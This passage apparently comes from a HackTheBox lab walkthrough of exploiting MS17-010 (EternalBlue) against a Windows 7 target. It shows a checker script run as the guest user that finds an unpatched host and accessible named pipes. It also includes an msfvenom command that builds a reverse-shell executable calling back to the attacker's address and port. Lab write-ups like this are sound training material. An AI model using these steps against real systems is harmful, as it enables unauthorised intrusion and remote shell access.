 Looking at the code and also, remembering from our previous nmap scan that we have a user called guest, we will modify the username to become guest and check if we can find accessible named pipes. 

```
'''
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'guest'
PASSWORD = ''
```

Now, we are able to find a few accessible named pipes, and we are also able to find out that the machine is a 64 bit machine. 

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python checker.py 10.10.10.40
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

Next, we will have to generate the reverse shell payload using msfvenom that we will be sending in the EternalBlue exploit that we are going to exploit.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4000 -f exe > rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Just like before, before executing the python script, we will have to modify the username to become guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Finally, we will just execute the script to send the reverse shell payload to the SMB server and spawn the reverse shell.
